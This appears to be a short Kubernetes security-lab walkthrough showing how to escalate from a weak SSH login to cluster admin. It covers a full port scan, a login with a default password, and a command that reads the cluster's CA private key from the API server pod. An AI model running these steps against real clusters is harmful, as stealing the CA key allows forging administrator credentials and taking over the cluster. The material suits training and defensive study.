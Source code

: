 # SSH to Cluster Admin

### Compromising the cluster

1. Scan all ports on node `nmap [CLUSTERIP] -p-`
2. Login via ssh `ssh -p 32001 sshuser@[CLUSTER IP]`. When prompted for a password, type `sshuser`
4. Get list of pods in kube-system namespace `kubectl get po -n kube-system` 
5. Grab the certificate `kubectl -n kube-system exec [API_SERVER_POD] -- cat /etc/kubernetes/pki/ca.key`
6. Profit!
